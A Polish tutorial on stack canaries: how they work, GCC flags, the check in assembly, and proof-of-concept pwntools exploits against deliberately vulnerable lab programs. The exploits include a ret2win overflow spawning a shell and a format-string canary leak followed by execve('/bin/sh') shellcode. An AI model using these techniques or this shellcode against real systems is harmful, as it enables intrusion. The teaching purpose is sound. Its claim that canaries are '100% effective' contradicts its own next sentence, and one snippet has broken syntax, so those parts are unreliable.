 # Stack canary

### 1. Opis

Kanarek jest mechanizmem zabezpieczenia stosu. Stara się on zapobiegać zmianie wykonania programu za pomocą nadpisywanie elementów na stosie.

Stack canary albo security cookie to losowa wartość zapisywana na stosie przed adresem powrotu. Przed powrotem wartość ta jest sprawdzana. Jeżeli uległa zmianie przerywane jest działanie programu.

Wartości kanarka mogą być generowane w różny sposób. Mogą to być wartości zawierające elementy takie jak `null byte` czy `terminator chars`, aby zapobiegać nadpisaniu kanarka po nadpisaniu powrotu. W przypadku przepełnienia bufora zapisanie takich znaków jest dość trudne przy użyciu danych funkcji.

Dość popularną strategią jest generacja kanarka w losowy sposób przy inicjalizacji programu i zapis go w zmiennych globalnych. Oczywiście odczytanie takiego kanarka może być możliwe dlatego często jest on paddowany pustymi stronami.

Istnieją też tak zwane `XOR canaries`, czyli kanarki, których wartość to XOR paru losowo wybranych wartości z programu. Dzięki temu nadpisanie takiego kanarka graniczy z cudem.

Jest to defaultowa opcja kompilatora `gcc`, można ją wyłączyć flagą `-fno-stack-protector`. Ochronę funkcji z buforami większymi niż 8 bajtów i używającymi `alloca` włącza `-fstack-protector`. A ochronę wszystkich funkcji włącza `-fstack-protector-all`.

Podobnie zachowuje się `clang`.

Kanarek sprawdza się przeciwko atakom, które nadpisują adres powrotu - ataki typu `ret2libc`, `ropchain` są bezużyteczne bez znajomości kanarka. 

Kanarek nie chroni przed atakami typu `format string`.

### 2. Wygląd w assemblerze

Koniec wywołania funkcji z kanarkiem wygląda następująco.

![img_2.png](img/img_7.png)

Do rejestru `eax` ładowany jest aktualny kanarek funkcji. Następnie odejmowany jest on od zapisanego kanarka w `gs:0x14`. W przypadku zgodności kanarków wartość odejmowania to zero.

Wtedy ustawiana jest flaga zero i instrukcja `je` przeskakuję `call` do funkcji mówiącej o błędzie kanarka i wywołanie kończy się normalnie. W odwrotnym przypadku wywoływana jest funkcja, która obsługuje błąd.

### 3. Proof of concept - prosta zmiana wykonania

Kanarek jest dobra metodą obrony przed atakami typu `ASLR & PIE/exploit_1`. Ataki bazujące na nadpisaniu adresu powrotu są dobrze łatane przez kanarka stosu. Jest to lepsza metoda niż ASLR, bo w 100% skuteczna.

Oczywiście wyciek pamięci (`arbitrary read`) pozwala bardzo łatwo obejść kanarka po prostu nadpisując w jego miejsce odpowiednią wartość.

Kod aplikacji podatnej jest taki sam, jaki  i exploit.

- **PIE & ASLR**: wyłączony - opcje te pozwalają na stały adres funkcji - ułatwiają exploitacje.
- **CANARY**: wyłączony - jest to idea tego exploitu.

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
    system("sh");
}

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
return 0;
}
```

Exploit ten był już opisywany w poprzednich rozdziałach. Ładuje on pod adres powrotu adres funkcji `secret`

Exploit:
```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")


name = b'AAAABBBBCCCCDDDDEEEEFFFF' # inject aaaas till eip
name += b'\xc9\x61\x55\x56' 

p.sendline(name)

p.interactive()

```

W tym przypadku przy kompilacji bez kanarka udaje się dostać shell.

![img.png](img/img_5.png)

A w przypadku kompilacji z kanarkiem nie udaje się - widzimy tutaj błąd, który wyrzucił kanarek.

![img_1.png](img/img_6.png)


### 4. Proof of concept - leak kanarka i wykonywalny stos

Istotą tego exploitu będzie pozyskanie wartości kanarka za pomocą format string.

Kod aplikacji podatnej: 

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    char name[16];
    char purpose[64];

    gets(name);
    printf("Hi!");
    printf(name);
    printf("\n");
    gets(purpose);
    printf("%s",purpose);
    return 0;

}
```

Schemat działania:
- Zlokalizować, którym argumentem pozycyjnym na stosie jest kanarek.
- Zlokalizować element na stosie, który ma stały adres względem drugiego bufora.
- Za pomocą otrzymanego adresu oraz wartości kanarka zbudować shellcode.

Aby otrzymać argumenty bedę używał exploitu format string. Konstrukcja `%15$x` pobierze 15 element ze stosu, liczbę mogę podmieniać.

Podpinam `gdb` do procesu aplikacji i szukam adresu do zatrzymania wykonania. Wybieram adres przed sprawdzeniem kanarka. Widzę też gdzie pominien znajdować się kanarek -`[ebp-0xc]`.

![img.png](img/img.png)

W `gdb` wyświetlam stos i lokalizuję kanarka.

![img_1.png](img/img_1.png)

Kanarek znajduję się w zamierzonym miejscu. Dwa adresy wyżej widzę również adres, który wygląda na adres, który może posłużyć do znalezienia offsetu naszego bufora. Upewniam się ze adres ten jest dobry kilkukrotnie wywołując program i sprawdzając offset od bufora - jest on stały i wynosi `0x108`.

Teraz strzelam w losowy argument na stosie i staram się ustalić gdzie jest kanarek i mój adres.

```c
import * from pwn

p = process("./vuln_2.o")

first_payload = "%20$x%21$x"
```

![img_2.png](img/img_2.png)

Otrzymuje dwa adresy, które znajduję na stosie.

![img_3.png](img/img_3.png)

Kanarek znajduję się na 31 pozycji, a nasz adres na 29. Od drugiego adresu muszę odjąć `0x108` i dodać offset wygenerowany przez elementy przed shellcode.

Gotowy shellcode bedzie wyglądał tak:
```
'aaaa...'+kanarek+adres_shellcode+shellcode
```
Piszę exploit:

```python
from pwn import *

p = process("./vuln_2.o")

first_payload = ",%29$x,%31$x"
p.sendline(first_payload) # wysylam format string do leakowania informacji
gdb.attach(p)
answer = p.recvline().decode("utf-8").split(',') # formatuje informacje
canary = int(answer[2],16) 
offset_address = int(answer[1],16)
buffor_address = offset_address - 0x108 
stuffed_canary = b'a'*64+p32(canary)

shellcode_address = buffor_address + len(stuffed_canary) +4
shellcode = b'\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

second_payload = stuffed_canary + p32(shellcode_address) + shellcode

p.sendline(second_payload)

p.interactive()

```

Został wywołany shell - exploit działa.

![img_4.png](img/img_4.png)

### 5. Proof of concept - GOT overwrite z format string

Opis tego exploita znajduje się w następnym rodziale, jest to exploit przed, którym kanarek nie jest w stanie ochronić. Kanarek w żaden sposób nie chroni przed atakami typu format string oraz atakami typu GOT.

### 6. Wnioski

Kanarek stosu jest dobrą metodą zabezpieczenia przed nadpisaniem adresu powrotu. Dobrą praktyką jest stosowanie go w funkcjach zawierających bufor.
